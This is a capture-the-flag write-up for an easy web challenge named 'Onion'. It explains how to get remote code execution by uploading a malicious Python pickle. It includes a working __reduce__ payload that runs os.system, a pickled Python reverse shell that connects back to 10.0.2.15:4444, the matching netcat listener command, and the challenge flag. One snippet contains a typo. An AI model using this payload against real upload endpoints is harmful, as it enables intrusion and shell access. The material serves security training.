 <font size='10'>Onion</font>

16<sup>th</sup> May 2024

Prepared By: `Muhammad Saad Akhtar`

Challenge Author(s): `Muhammad Saad Akhtar`

Category: `Web`

Difficulty: <font color='green'>Easy</font>

<br><br>

## Description

- In this challenge, the participants need to analyze the functionality of the web app and then upload a malformed python pickle file to get code execution on the remote host.

## Skills Required

- Information Gathering
- Researching Skills
- A little bit of python know how (otherwise you'll get it with googling)

# Solution

The participants are provided with a URL to access the application.

Upon visiting the URL, we can see a page which says upload a pickled file.

![img](assets/0.png)

Googling `pickled file`, we see [this](https://docs.python.org/3/library/pickle.html) python module.

According to above source, it is used for serializing and de-serializing a Python object structure.

The page also says, that pickle module is not secure.
![img](assets/1.png)

Looking for ways to exploit this we see [this](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/).

As the challenge suggests, we can upload a pickled file and it would unpickle it for us.

We can try playing around with pickle first.

Let's get into a python shell and import `pickle`.

![img](assets/2.png)

Next we can try pickling our `test_data` variable. This can be achieved with `pickle.dumps`
![img](assets/3.png)

We can save this in a variable and then unpickle it using `pickle.loads`.

![img](assets/4.png)

That was just basic working of pickle. Now let's try doing some code execution.

From the exploits-notes link above, we can make an RCE class that runs `id` command on the system using the `os` module.

```python
import os

class RCE:
    def __reduce__(self):
        cmd = ('id')
        return os.system, (cmd,)

pickled = pickled.dumps(RCE())
print(pickled)

# Output
# uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)
```

Great, so it works fine. Now to get RCE on the server, we need to pickle a reverse shell and save it into a file.

Upon uploading the pickled file we'll get the shell.

With following python code, we can generate a pickled file with a python reverse shell.

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('python -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open('rce.pickle', 'wb+') as f:
        f.write(pickled)
        f.close()
```

Running this would generate a file `rce.pickle`.

Start a `netcat` listener and upload the file on the web.

```bash
┌──(kali㉿kali)-[~/…/unused/onion/src/test]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Once the file is uploaded, we'll catch the reverse shell.
![img](assets/5.png)

Read the `flag.txt` from `/`.

![img](assets/6.png)


### Challenge Flag

flag{1_ju$t_g0t_p1ckl3d_ag4innnn!}